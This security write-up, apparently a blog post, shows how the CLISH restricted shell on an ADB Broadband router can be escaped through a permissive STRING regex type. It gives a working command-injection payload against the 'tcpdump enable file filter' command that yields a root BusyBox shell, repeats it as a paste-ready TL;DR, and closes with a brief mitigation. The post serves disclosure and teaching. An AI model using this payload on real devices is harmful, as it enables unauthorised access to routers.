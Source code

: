 # Escaping from CLISH

For impatient readers: There is a TL;DR at the end.

## Short intro in CLISH

```
********************************************
*            ADB BROADBAND                 *
*                                          *
*      WARNING: Authorised Access Only     *
********************************************

Welcome  
ADB#
```

CLISH is a restricted shell which supports only a set of predefined
commands. Is seems to be developed by a single person, Graeme McKerrell,
 and was last updated 2013-04-26.

### Views
These are used to  define "views" which contain a set of commands. If you type in `config terminal` for example the shell can open another view with configuration command and with `exit` you can go back to the view.</p>

### Commands
A command has basically a name, zero or more parameter and an action.
The name is constant and there is no such thing like subcommands. So it's very
simple and a name may be for example `ping` or `config terminal`.
The interesting parts are the parameters and the action. The action are
some shell commands(!) in which the parameters can be used as environment
variables. To disallow [command injection][1] you can restrict the parameter
by using a type.

### Types
A type can be defined with a *regex*,  as *selection* of values or as a
*integer*. By executing a command and while typing each parameter is matched
against its type.

As an additional countermeasure against code injection the characters
\`|$<>&()# are escaped by *adding a backslash in front* of them.

## Problem

So what exactly is the problem? Everything seems fine?
All parameter defined with types using integers and selections seem perfectly
fine if you don't screw up completely.

But what about regular expressions? In the official documentation
"as a reference" there is this type definition:

```xml
<PTYPE name="STRING"
    pattern="[^\-]+"
      help="String"/>
```

This looks pretty OK. We can't use backslashes or use the parameter
as a flag argument because "-" is forbidden. Lets look at the firmware.
Did they implement STRING is differently? YES:

```xml
<PTYPE name="STRING"  
    pattern="[^`]*"
        help="String"/>
```
So.. uhm.. They don't want the backquote (\`) in the string. This
is fine but what about the backslash and minus? Lets try it. Used here
with ping. Other implementations may have ping restricted to
IP-addresses. The ping definition looks something like this:  

### Screwing with Ping

```xml
<COMMAND name="ping"  
         help="send ICMP ECHO_REQUEST to network hosts">

  <PARAM name="destination"
     help="Destination host or IP address"
     ptype="STRING"/>

  <ACTION>exec ping "${destination}"</ACTION>
</COMMAND>
```

```sh
ADB# ping `/bin/sh`  
          ^
destination  String
```

Yes thats what probably what they expected.

```sh
ADB# ping \  
sh: syntax error: unterminated quoted string  
```

Uh oh.. This was translated to `ping "\"`.

```sh
ADB# ping \$SHELL  
ping: bad address '\/bin/clish'
```

The "$" was escaped but an additional backslash escaped the backslash: ```ping "\\$USER"```
While this is funny we can't actually execute something with it. So we have to dig a bit deeper and I found this command:

### Accessing the Shell

```xml
<COMMAND name="tcpdump enable file filter" help="tcpdump enable output file filter">  
    <PARAM name="ifname" help="interface name" ptype="IFNAMES"/>
    <PARAM name="filename" help="log file name" ptype="STRING"/>
    <PARAM name="filter" help="pcap filter" ptype="PCAPFILTER"/>
        <ACTION>
            . /etc/clish/tcpdump.sh "file" "filter" "${ifname}" "${filename}" "${filter}"
        </ACTION>
</COMMAND>  
```

```
ADB# tcpdump enable file filter br0 \ "; sh -c sh \"

ERROR:   Output File has to be stored in a connected mounted USB memory device (ex. /mnt/sda1/ )

HELP:    ...


BusyBox v1.17.3 (2015-09-23 17:35:23 CEST) built-in shell (ash)  
Enter 'help' for a list of built-in commands.

/root $ echo $USER
admin
```

**Hello shell!**

### Some extra candy

While writing this post if took a second look into the type definitions. There was a very interesting one.

```xml
<PTYPE name="WIFI_PASSPHRASE"
       pattern=".........*"
       help="More than 8 char string"/>
```
If you try to write code injection with this one make sure your code has at least 8 characters! ;)

## Mitigation

**RTFM!**
Sanitizing insecure strings by using the type definition from the reference should be enough.

## TL;DR
Paste the following code:
`tcpdump enable file filter br0 \ "; /bin/sh -c /bin/sh \"`

[1][https://www.owasp.org/index.php/Command_Injection]
